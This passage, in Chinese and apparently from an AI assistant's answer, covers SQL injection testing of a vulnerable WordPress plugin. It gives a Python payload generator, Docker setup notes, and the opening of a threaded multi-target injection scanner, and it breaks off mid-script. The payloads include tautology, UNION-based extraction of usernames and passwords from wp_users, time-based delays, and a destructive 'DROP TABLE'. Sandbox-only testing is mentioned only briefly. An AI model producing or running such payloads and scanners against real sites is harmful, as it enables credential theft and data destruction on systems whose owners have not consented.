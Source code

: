 測試：使用相同注入 URL，應無異常返回。

範例 3: SQL 注入 payload 代碼生成器（Python）
用於生成測試 payload。
pythondef generate_sql_payloads(base="1"):
    return [
        f"{base}' OR '1'='1",
        f"{base}' UNION SELECT database(), user(), version(); --",
        f"{base}'; WAITFOR DELAY '0:0:5'; --"  # MSSQL 時間基
    ]

payloads = generate_sql_payloads()
for p in payloads:
    print(p)

運行：產生 payload 清單，用於上述腳本。


4. 測試注意事項

環境: 使用 Docker 搭建 WordPress + 漏洞插件：docker run -p 80:80 -v $(pwd)/plugins:/var/www/html/wp-content/plugins wordpress。
工具版本: sqlmap 最新版；Python 3+ with requests。
安全: 僅在沙盒環境測試，避免生產系統。修補後重測確認。
驗證修補: 更新插件至 6.1.5+，重跑腳本，應無注入成功。

如果需要更多自訂腳本（如整合 Burp Suite）或特定環境的調整，請提供細節！



改進後的 Python 腳本：多目標 SQL 注入驗證
功能

多目標支持：從檔案或清單輸入多個目標 URL。
多種 Payload：測試多個 SQL 注入 payload，包括基本注入、聯合查詢和時間基注入。
並行處理：使用多執行緒加速測試。
結果記錄：將測試結果儲存到檔案，並標記潛在漏洞。
錯誤處理：處理網絡錯誤、超時等問題。

腳本內容
pythonimport requests
import threading
import time
import os
from datetime import datetime
from urllib.parse import urljoin

# 設置請求超時和 User-Agent
TIMEOUT = 5
HEADERS = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'}

# SQL 注入 payload 清單
PAYLOADS = [
    "1' OR '1'='1",  # 基本注入
    "1' UNION SELECT username, password FROM wp_users; --",  # 提取用戶數據
    "1' AND SLEEP(5); --",  # 時間基注入（MySQL）
    "1' UNION SELECT database(), user(), version(); --",  # 提取數據庫信息
    "1'; DROP TABLE test_table; --"  # 破壞性測試（僅沙盒環境）
]
